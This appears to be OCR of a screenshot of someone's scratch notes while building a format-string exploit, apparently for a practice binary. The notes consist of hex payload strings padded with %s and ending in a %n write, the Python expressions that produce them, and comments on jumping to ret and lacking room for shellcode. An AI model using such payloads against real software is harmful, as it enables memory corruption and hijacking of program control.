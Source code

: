80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff ccff 0a42 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e
Result of change to 363c
.
'80ff ' * 120 + 'd4ff ' + '0a42 '+ '2573 ' * 121 + '256e'
80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff d4ff 0a42 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e
Result of change to 2e3c
# Change overwrite to code: 
'80ff ' * 120 + 'd4ff ' + '7a44 '+ '2573 ' * 121 + '256e'
80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff d4ff 7a44 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e
# WORKINGGGG - Jumping to ret, The problem is that I don't have enough buffer to write the shellcode + the sp, I should find a better widget to jump to
